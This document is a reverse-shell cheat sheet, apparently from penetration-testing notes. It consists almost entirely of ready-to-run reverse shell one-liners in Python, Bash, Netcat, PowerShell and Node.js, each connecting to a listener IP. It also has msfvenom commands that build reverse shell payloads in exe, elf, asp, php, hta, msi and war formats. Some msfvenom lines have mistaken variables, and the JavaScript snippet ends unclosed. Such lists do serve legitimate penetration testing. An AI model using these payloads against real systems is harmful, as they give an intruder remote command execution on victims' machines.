 #### Python Reverse Shell
```python
export RHOST="10.10.10.10"; export RPORT=443; python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

#### Bash Reverse Shells
```bash
/bin/bash -i >& /dev/tcp/10.0.0.1/443 0>&1
```

#### Msfvenom Reverse Shells
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f exe -o rshell.exe
```
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=$TARGET LPORT=$PORT -f elf -o rshell.elf
```
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f asp -o rshell.asp
```
```bash
msfvenom -p php/reverse_php LHOST=$LHOST LPORT=$LPORT -f raw -o rshell.php
```
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=$LPORT LPORT=$LPORT -f hta-psh -o rshell.hta
```
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f powershell
```
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f msi -o rshell.msi
```
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$LPORT LPORT=$LPORT -f war > rshell.war
```

#### Netcat Reverse Shells
```bash
sudo nc -nv 10.10.10.10 443 -e /bin/bash
```
```bash
nc -nv 10.10.10.10 443 -e "/bin/bash"
```

#### PowerShell Reverse Shell
```bash
'powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.11.12.13",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
```

#### JavaScript Reverse Shell
```javascript
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/bash", []);
    var client = new net.Socket();
    client.connect(4444, "192.168.69.123", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/;
```